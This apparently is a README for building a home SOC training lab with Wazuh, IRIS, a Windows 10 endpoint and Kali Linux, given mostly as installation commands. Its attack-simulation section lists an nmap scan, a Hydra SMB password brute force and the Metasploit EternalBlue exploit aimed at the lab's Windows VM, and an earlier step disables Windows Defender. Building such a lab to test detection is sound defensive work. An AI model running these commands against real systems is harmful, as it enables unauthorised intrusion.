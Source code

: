 Table of Contents
Introduction

Lab Overview

Prerequisites

VirtualBox Setup

Ubuntu Server Installation (Wazuh & IRIS)

Windows 10 Machine Setup

Kali Linux Setup (Attack Simulation)

Wazuh Installation & Configuration

IRIS Incident Response Platform Setup

Integrating Wazuh with IRIS via API

Attack Simulation & Alert Monitoring

Future Enhancements

Conclusion

References

1. Introduction
This documentation provides a step-by-step guide to building a fully functional Security Operations Center (SOC) Lab using VirtualBox, Wazuh (SIEM), IRIS (Incident Response Platform), Windows 10 (Endpoint), and Kali Linux (Attack Simulation).

Objectives
Monitor security events using Wazuh SIEM

Automate incident response with IRIS

Simulate attacks using Kali Linux

Test detection and response capabilities

Establish a foundation for future SOC enhancements

2. Lab Overview
Component	Role
VirtualBox	Hypervisor for running virtual machines
Ubuntu (Wazuh)	Hosts Wazuh SIEM for threat detection
Ubuntu (IRIS)	Runs IRIS Incident Response Platform
Windows 10	Test endpoint with Wazuh Agent
Kali Linux	Attack simulation platform

3. Prerequisites
Before starting, ensure you have:

VirtualBox installed

Minimum 8GB RAM (recommended)

Ubuntu Server 22.04 LTS ISO

Windows 10 ISO

Kali Linux ISO

Stable internet connection

4. VirtualBox Setup
4.1 Creating Virtual Machines
VM		OS Type		RAM	Storage		Network
Wazuh Server	Ubuntu 64-bit	4GB	50GB	Bridged Adapter/only-host net
IRIS Server	Ubuntu 64-bit	4GB	50GB	Bridged Adapter /only-host net
Windows 10	Windows 64-bit	4GB	60GB	Bridged Adapter/only-host net
Kali Linux	Debian 64-bit	2GB	30GB	Bridged Adapter/only-host net


5. Ubuntu Server Installation
5.1 Base Installation
Boot from Ubuntu Server ISO

Set static IP for both servers

5.2 Post-Installation Setup
```bash
sudo apt update && sudo apt upgrade -y
sudo apt install -y openssh-server net-tools curl wget
```
6. Windows 10 Machine Setup
Install Windows 10

Install VirtualBox Guest Additions

Disable Windows Defender for testing

Install Wazuh Agent (see Section 8)

7. Kali Linux Setup
Install Kali Linux

Update system:
```bash
sudo apt update && sudo apt upgrade -y
```
Install tools:
```bash
sudo apt install -y metasploit-framework nmap hydra
```
8. Wazuh Installation
8.1 Server Installation
```bash
curl -s https://packages.wazuh.com/key/GPG-KEY-WAZUH | sudo gpg --no-default-keyring --keyring gnupg-ring:/usr/share/keyrings/wazuh.gpg --import && sudo chmod 644 /usr/share/keyrings/wazuh.gpg
echo "deb [signed-by=/usr/share/keyrings/wazuh.gpg] https://packages.wazuh.com/4.x/apt/ stable main" | sudo tee -a /etc/apt/sources.list.d/wazuh.list
sudo apt update
sudo apt install -y wazuh-manager
sudo systemctl enable --now wazuh-manager
```
8.2 Windows Agent Installation
```bash
.\wazuh-agent-4.7.2-1.msi /qn WAZUH_MANAGER="<Wazuh_Server_IP>" WAZUH_AGENT_GROUP="default" WAZUH_AGENT_NAME="Windows10-Agent"
net start WazuhSvc
```
9. IRIS Installation
```bash
sudo apt install -y docker.io docker-compose
sudo systemctl enable --now docker
git clone https://github.com/dfir-iris/iris-web
cd iris-web
docker-compose up -d
```
10. Wazuh-IRIS Integration
In IRIS Dashboard: Settings > Integrations > Wazuh

Enter Wazuh Manager IP and credentials

Enable alert forwarding (Level 4+) and connect the api using wazuh-IRIS integration libary 

Test connection

11. Attack Simulation
```bash
nmap -sV <Windows_IP>
hydra -l admin -P /usr/share/wordlists/rockyou.txt <Windows_IP> smb
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <Windows_IP>
exploit
```
11.2 Alert Monitoring
Check IRIS Dashboard: Alerts > Wazuh Alerts

Verify incident logs

12. Future Enhancements
Implement pfSense/OPNsense firewall

Deploy MISP threat intelligence platform

Install Security Onion for NSM

13. Conclusion
This lab provides a complete SOC environment for:

Threat detection (Wazuh)

Incident response (IRIS)

Attack simulation (Kali)

Endpoint monitoring (Windows)

14. References
Wazuh Documentation

IRIS GitHub

Kali Tools

VirtualBox Manual
